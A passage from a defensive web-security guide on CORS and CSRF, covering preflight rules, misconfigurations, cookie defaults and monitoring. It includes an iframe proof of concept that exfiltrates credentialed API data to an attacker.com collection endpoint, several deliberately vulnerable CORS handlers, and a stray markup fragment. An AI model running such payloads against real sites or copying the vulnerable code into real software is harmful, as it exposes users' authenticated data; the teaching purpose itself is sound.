That last point is the entire reason CSRF is its own problem: SOP intentionally allows the request, just not the read.

### Simple vs. preflighted requests

A request is "simple" — no preflight required — when **all** of the following
hold ([Fetch Standard](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)):

1. Method is `GET`, `HEAD`, or `POST`.
2. Every header outside the safelist (`Accept`, `Accept-Language`, `Content-Language`, `Content-Type` with restrictions, `Range`) is absent.
3. If `Content-Type` is set, its value is one of `application/x-www-form-urlencoded`, `multipart/form-data`, or `text/plain`.
4. No `ReadableStream` in the request body.
5. No upload event listeners on `XMLHttpRequest.upload` (no upload progress event listeners).
6. No custom CORS-safelisted-request-header value exceeds 128 bytes, and the **total** byte length of all CORS-safelisted-request-headers is at most 1024 bytes[^safelist-bytes].

Anything else triggers an `OPTIONS` preflight. The implication for security
design: defaulting to JSON request bodies (`Content-Type: application/json`)
or any custom header automatically forces a preflight, giving the server a
chance to reject before the real request runs.

[^safelist-bytes]: [Fetch Standard — CORS-safelisted request-header](https://fetch.spec.whatwg.org/#cors-safelisted-request-header), per-header 128-byte cap and 1024-byte aggregate cap.

```http title="Preflight request"
OPTIONS /api/data HTTP/1.1
Host: api.example.com
Origin: https://app.example.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: content-type, x-csrf-token
```

```http title="Preflight response"
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: Content-Type, X-CSRF-Token
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 7200
Vary: Origin
```

 until Access-Control-Max-Age expires.")


### CORS response headers

| Header | Purpose | Required when |
| --- | --- | --- |
| `Access-Control-Allow-Origin` | The origin permitted to read the response | Always for CORS reads |
| `Access-Control-Allow-Methods` | Methods permitted beyond simple | Preflight responses |
| `Access-Control-Allow-Headers` | Non-safelisted request headers permitted | Preflight responses |
| `Access-Control-Allow-Credentials` | Whether the response is readable when credentials (cookies, HTTP auth) are attached | Whenever the request used `credentials: 'include'` |
| `Access-Control-Expose-Headers` | Response headers JavaScript may read beyond the safelist | Optional |
| `Access-Control-Max-Age` | Preflight cache lifetime in seconds | Optional |

### Credentials and wildcards

Per the [Fetch standard](https://fetch.spec.whatwg.org/#cors-protocol-and-credentials),
when `Access-Control-Allow-Credentials: true`, none of the response headers
above may use the wildcard `*`. The browser hard-rejects the response.

```http title="INVALID — wildcard with credentials"
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

```http title="VALID — explicit origin with credentials"
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Credentials: true
Vary: Origin
```

When you reflect the `Origin` request header back as `Allow-Origin` (the
allowlist pattern), include `Vary: Origin` so intermediate caches don't
serve a response permitted for one origin to a different one[^vary-origin].

[^vary-origin]: [MDN — Vary](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Vary).

### The CORS preflight cache

`Access-Control-Max-Age` advertises how long the browser may cache a
preflight result. The actual cap is browser-defined and considerably tighter
than what most servers send:

| Browser | Documented cap | Source |
| --- | --- | --- |
| Chromium ≥ v76 (Chrome, Edge, Opera) | 7200 s (2 h) | [Chromium source via MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Max-Age) |
| Chromium &lt; v76 | 600 s (10 min) | Chromium source |
| Firefox | 86400 s (24 h) | [Firefox source via MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Max-Age) |
| Safari (WebKit) | Not formally documented; reported in the 5–10 minute range in community testing | Treat as ≤ 600 s |

The default when the header is missing is 5 seconds[^max-age-default]. The
cache key is **(origin, URL, credentials mode)** — a cached preflight for
`credentials: 'omit'` is not reused for `credentials: 'include'`, and
preflights are not shared across methods or header sets. Setting
`Access-Control-Max-Age: 86400` is harmless on Chromium (it'll be capped at
7200) but worth being aware of when you're trying to predict load.

[^max-age-default]: [Fetch Standard — CORS protocol](https://fetch.spec.whatwg.org/#http-access-control-max-age).

## CORS misconfigurations and attacks

Almost every published CORS bug fits one of four shapes. PortSwigger's
[Exploiting CORS misconfigurations](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
remains the canonical taxonomy.

### Reflected origin

The server reflects whatever `Origin` header arrived, with credentials.

```javascript title="VULNERABLE: reflects any origin"
app.use((req, res, next) => {
  res.setHeader("Access-Control-Allow-Origin", req.headers.origin)
  res.setHeader("Access-Control-Allow-Credentials", "true")
  next()
})
```

Any attacker page can fetch authenticated responses. Fix by validating
against an explicit set:

```javascript title="SECURE: explicit allowlist"
const ALLOWED_ORIGINS = new Set([
  "https://app.example.com",
  "https://staging.example.com",
])

app.use((req, res, next) => {
  const origin = req.headers.origin
  if (origin && ALLOWED_ORIGINS.has(origin)) {
    res.setHeader("Access-Control-Allow-Origin", origin)
    res.setHeader("Access-Control-Allow-Credentials", "true")
    res.setHeader("Vary", "Origin")
  }
  next()
})
```

### Trusting `null`

Browsers send `Origin: null` from
[sandboxed iframes (without `allow-same-origin`)](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-sandbox),
`data:` URIs, `file:` URIs, requests originating from serialized data, and
across some redirect chains. Any attacker page can synthesize the first two.

```http title="VULNERABLE: trusting null with credentials"
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

The exploit pattern (e.g. CVE-2019-9580 against StackStorm `st2web`):

```html title="attacker.com — exfil via sandboxed iframe + data: URI"
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script>
    fetch('https://api.vulnerable.com/user/data', { credentials: 'include' })
      .then(r => r.json())
      .then(d => navigator.sendBeacon('https://attacker.com/collect', JSON.stringify(d)))
  </script>">
</iframe>
```

Never allowlist the literal `null`. If a workflow truly needs `null`-origin
access (some local-dev tooling), restrict it to non-credentialed,
non-sensitive endpoints.

### Origin-validation regex bypass

A regex without an end-anchor is the classic foot-gun:

```javascript title="VULNERABLE: missing $ anchor"
const allowed = /^https:\/\/.*\.example\.com/
if (allowed.test(origin)) {
  res.setHeader("Access-Control-Allow-Origin", origin)
}
// Bypassed by https://example.com.attacker.com — matches the regex
```

Prefer literal-set comparisons (`Set.has`) over regex. If you must use a
regex, anchor both ends and constrain character classes:

```javascript title="SECURE: anchored regex"
const allowed = /^https:\/\/[a-z0-9-]+\.example\.com$/
```

### Subdomain wildcards

Allowlisting `*.example.com` makes you only as strong as the weakest
subdomain. Subdomain takeover (DNS records pointing at decommissioned cloud
services) lets an attacker take an apparent `example.com` subdomain and
inherit your CORS trust. So do typo-domains like `examp1e.example.com` if
matched naively. Mitigate with:

- Explicit allowlist of in-use subdomains, regenerated from infrastructure-as-code.
- DNS hygiene: an automated audit that flags CNAMEs to deprovisioned services.
- Refuse `Origin` values whose hostname does not match a known label.

## Adjacent browser security headers

CSRF and CORS sit inside a wider browser security header surface. The following controls are frequently confused with CSRF / CORS and live alongside them; treat them as *separate* layers with distinct threat models.

| Header / mechanism                          | Threat it addresses                                                                                                                       | Relationship to CSRF / CORS                                                                                                |
| ------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------- |
| `X-Frame-Options` (legacy)                  | Clickjacking — your page rendered inside an attacker iframe                                                                                | Independent of CSRF tokens; an attacker who frames your page can still trick the user into clicking the real submit button |
| `Content-Security-Policy: frame-ancestors`  | Modern, finer-grained replacement for `X-Frame-Options`[^csp-fa]                                                                           | Same as above; superset, supports allowlists                                                                               |
| `Content-Security-Policy` (script-src etc.) | XSS, code injection                                                                                                                       | Reduces the XSS attack surface that defeats SameSite + CSRF tokens                                                         |
| `Cross-Origin-Opener-Policy` (COOP)         | Cross-origin window references and Spectre-class side-channels[^coop]                                                                      | Prevents `window.opener` exfil; orthogonal to cookie attachment                                                            |
| `Cross-Origin-Embedder-Policy` (COEP)       | Forces sub-resources to opt in via CORP/CORS so the page can be cross-origin isolated[^coep]                                               | Required to enable `crossOriginIsolated` (and `SharedArrayBuffer`); does not gate cookie attachment                        |
| `Cross-Origin-Resource-Policy` (CORP)       | Blocks no-CORS cross-origin reads of *your* resource by other documents (e.g. via ``, `<script>`)[^corp]                              | Protects against speculative-execution / Spectre leaks of response *bytes*, not against CSRF writes                        |

The COOP / COEP / CORP triad delivers *cross-origin isolation* — a stronger isolation context that re-enables high-resolution timers and `SharedArrayBuffer` while making cross-origin leaks (Spectre, side-channels) much harder. It does not replace CORS, SameSite, or CSRF tokens; it adds a separate boundary at the document and resource level.

[^csp-fa]: [MDN — `Content-Security-Policy: frame-ancestors`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/frame-ancestors).
[^coop]: [web.dev — Cross-Origin-Opener-Policy](https://web.dev/articles/why-coop-coep#coop) and [HTML Standard §7.3](https://html.spec.whatwg.org/multipage/origin.html#cross-origin-opener-policies).
[^coep]: [web.dev — Cross-Origin-Embedder-Policy](https://web.dev/articles/why-coop-coep#coep).
[^corp]: [Fetch Standard — Cross-Origin-Resource-Policy](https://fetch.spec.whatwg.org/#cross-origin-resource-policy-header).

## Defense-in-depth blueprint

For a typical SPA + JSON API, compose the layers:




### Cookie defaults to start from

```http
Set-Cookie: __Host-session=...; Secure; HttpOnly; SameSite=Strict; Path=/
Set-Cookie: __Host-csrf=...;     Secure; HttpOnly; SameSite=Strict; Path=/
```

| Attribute | Purpose | Hard requirement |
| --- | --- | --- |
| `__Host-` prefix | Forbids subdomain overwrite | Requires `Secure`, `Path=/`, no `Domain` |
| `Secure` | TLS only | Mandatory for production |
| `HttpOnly` | No JS access | Mandatory for session and CSRF cookies |
| `SameSite=Strict` | No cross-site attachment | Default for sessions and tokens |
| `Path=/` | Cookie is application-scoped | Required by `__Host-` |

If you must support cross-site embeds, the only safe relaxation is
`SameSite=None; Secure` for the *embedded* cookie, with the CSRF defense
upgraded accordingly.

### CSRF defense layers

1. **Browser layer.** `SameSite=Strict` (or `Lax` if you must allow top-level navigations from outside).
2. **Server layer A — token.** Synchronizer for stateful apps; signed double-submit (`__Host-` cookie + matching header) for stateless apps.
3. **Server layer B — origin.** Allowlist `Origin`; reject `null` and missing on state-changing methods.
4. **Server layer C — Fetch Metadata.** Reject `Sec-Fetch-Site: cross-site` for non-public endpoints; allow `none` for direct user navigations.

### CORS defaults to start from

```javascript title="cors.ts"
const corsOptions = {
  origin: (origin, cb) => {
    const ALLOWED = new Set([
      "https://app.example.com",
      "https://admin.example.com",
    ])
    if (!origin) return cb(null, true) // same-origin or curl
    return ALLOWED.has(origin) ? cb(null, true) : cb(new Error("CORS blocked"))
  },
  methods: ["GET", "POST", "PUT", "DELETE"],
  allowedHeaders: ["Content-Type", "Authorization", "X-CSRF-Token"],
  exposedHeaders: ["X-Request-Id"],
  credentials: true,
  maxAge: 7200,
  optionsSuccessStatus: 204,
}

app.use(cors(corsOptions))
app.use((req, res, next) => {
  res.setHeader("Vary", "Origin")
  next()
})
```

Operational checklist:

- [ ] Never `*` with `credentials: true`.
- [ ] Validate `Origin` against an explicit allowlist; never reflect blindly.
- [ ] Treat `Origin: null` as hostile; never allow with credentials.
- [ ] Always include `Vary: Origin` when responses depend on `Origin`.
- [ ] Cap `maxAge` to a value the browser will actually honour (≤ 7200 for Chromium, ≤ 86400 for Firefox).
- [ ] Minimize `Access-Control-Expose-Headers` to what JS truly needs.
- [ ] Audit subdomain DNS regularly to prevent takeover-driven CORS bypasses.

## Testing and monitoring

### Manual probes

```bash title="reject-without-token"
curl -i -X POST https://app.example.com/api/transfer \
  -H "Cookie: __Host-session=valid_session" \
  -H "Content-Type: application/json" \
  -d '{"amount":100}'
# Expected: 403 (CSRF token missing)
```

```bash title="reject-wrong-origin"
curl -i -X POST https://app.example.com/api/transfer \
  -H "Cookie: __Host-session=valid_session" \
  -H "Origin: https://attacker.com" \
  -H "Content-Type: application/json" \
  -d '{"amount":100}'
# Expected: 403 (origin not in allowlist)
```

```bash title="preflight-shape"
curl -i -X OPTIONS https://api.example.com/data \
  -H "Origin: https://attacker.com" \
  -H "Access-Control-Request-Method: POST" \
  -H "Access-Control-Request-Headers: x-csrf-token"
# Expected: no Access-Control-Allow-Origin header for attacker.com
```

```bash title="reject-null-origin"
curl -i https://api.example.com/data -H "Origin: null"
# Expected: no Access-Control-Allow-Origin: null
```

### Telemetry

Log every 403 attributable to a security check. Useful fields: `Origin`,
`Referer`, `Sec-Fetch-Site`, `Sec-Fetch-Mode`, the rule that fired, the
session id, the source IP, and the user-agent.

```javascript title="security-event-logger.ts"
function securityEventLogger(req, res, next) {
  const originalEnd = res.end
  res.end = function (...args) {
    if (res.statusCode === 403) {
      logger.warn("security_block", {
        reason: res.locals.securityBlockReason,
        ip: req.ip,
        origin: req.headers.origin || null,
        referer: req.headers.referer || null,
        sec_fetch_site: req.headers["sec-fetch-site"] || null,
        sec_fetch_mode: req.headers["sec-fetch-mode"] || null,
        path: req.path,
        method: req.method,
        ua: req.headers["user-agent"],
      })
    }
    originalEnd.apply(this, args)
  }
  next()
}
```

Useful alerts:

- Spike in CSRF token failures from a single session — rotation bug or in-progress attack.
- Repeated `Origin: null` from credentialed requests — exploitation probing.
- Burst of preflight failures from a single IP — CORS attack reconnaissance.
- Sustained `Sec-Fetch-Site: cross-site` POSTs to non-public endpoints — pre-attack scanning.

## Practical takeaways

- Treat CSRF and CORS as *separate problems*. CORS does not stop CSRF; SameSite does not control cross-origin reads.
- Default cookies to `__Host-…; Secure; HttpOnly; SameSite=Strict; Path=/`. Only relax with a documented reason and a compensating control.
- Combine SameSite (browser) + signed double-submit token (server) + `Origin` allowlist (server) + Fetch Metadata (modern server) — every layer has a documented bypass; the composition does not.
- For CORS, allowlist origins explicitly, never reflect, never trust `null` with credentials, always set `Vary: Origin`, and accept that browsers will cap `Access-Control-Max-Age` lower than you set it.
- Monitor 403s with full request context. Most CSRF/CORS exploitation surfaces as quiet anomalies in the security log before it surfaces as data loss.

## Appendix

### Prerequisites

- HTTP cookie mechanics and `Set-Cookie` attribute syntax.
- Same-origin policy and the (scheme, host, port) origin tuple.
- HMAC, constant-time comparison, and basic random-number sourcing.

### Terminology

| Term | Definition |
| --- | --- |
| **CSRF** | Cross-Site Request Forgery — exploits ambient cookie attachment to issue authenticated requests the user did not intend. |
| **CORS** | Cross-Origin Resource Sharing — browser protocol for opting out of SOP read restrictions. |
| **SOP** | Same-Origin Policy — default browser policy isolating cross-origin reads. |
| **SameSite** | Cookie attribute controlling cross-site request inclusion (`Strict` / `Lax` / `None`). |
| **Lax-allowing-unsafe** | Enforcement mode for default-`Lax` cookies allowing cross-site top-level POST navigations within ~2 minutes of cookie creation. |
| **Preflight** | OPTIONS request the browser sends to confirm the target permits a non-simple cross-origin request. |
| **Fetch Metadata** | `Sec-Fetch-*` request headers describing the request's initiator context. |
| **Registrable domain** | Public-suffix-derived eTLD+1; the unit "same-site" cares about. |

### References

**Specifications**

- [`draft-ietf-httpbis-rfc6265bis-22` — Cookies: HTTP State Management Mechanism](https://datatracker.ietf.org/doc/draft-ietf-httpbis-rfc6265bis/) (December 2025)
- [WHATWG Fetch Standard](https://fetch.spec.whatwg.org/) — CORS protocol, simple-request criteria, forbidden header names
- [W3C Fetch Metadata Request Headers](https://www.w3.org/TR/fetch-metadata/) (Working Draft, 2025-04-01)

**Vendor and standards documentation**

- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [MDN — CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS)
- [MDN — Set-Cookie / SameSite](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie#samesitesamesite-value)
- [MDN — `Access-Control-Max-Age`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Max-Age)
- [web.dev — SameSite cookies explained](https://web.dev/articles/samesite-cookies-explained)
- [web.dev — Protect your resources with Fetch Metadata](https://web.dev/articles/fetch-metadata)
- [Chromium SameSite Updates](https://www.chromium.org/updates/same-site/)
- [MDN — Cookies Having Independent Partitioned State (CHIPS)](https://developer.mozilla.org/en-US/docs/Web/Privacy/Guides/Privacy_sandbox/Partitioned_cookies)
- [Privacy Sandbox — CHIPS](https://privacysandbox.google.com/cookies/chips)
- [web.dev — Why you need cross-origin isolated for powerful features (COOP / COEP)](https://web.dev/articles/why-coop-coep)
- [Fetch Standard — Cross-Origin-Resource-Policy](https://fetch.spec.whatwg.org/#cross-origin-resource-policy-header)
- [RFC 6454 — The Web Origin Concept](https://datatracker.ietf.org/doc/html/rfc6454)

**Security research**

- [PortSwigger — Cross-origin resource sharing (CORS)](https://portswigger.net/web-security/cors)
- [PortSwigger — Bypassing SameSite cookie restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions)
- [PortSwigger Research — Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
- [CVE-2019-9580 — StackStorm st2web `null` origin CORS bypass](https://nvd.nist.gov/vuln/detail/CVE-2019-9580)
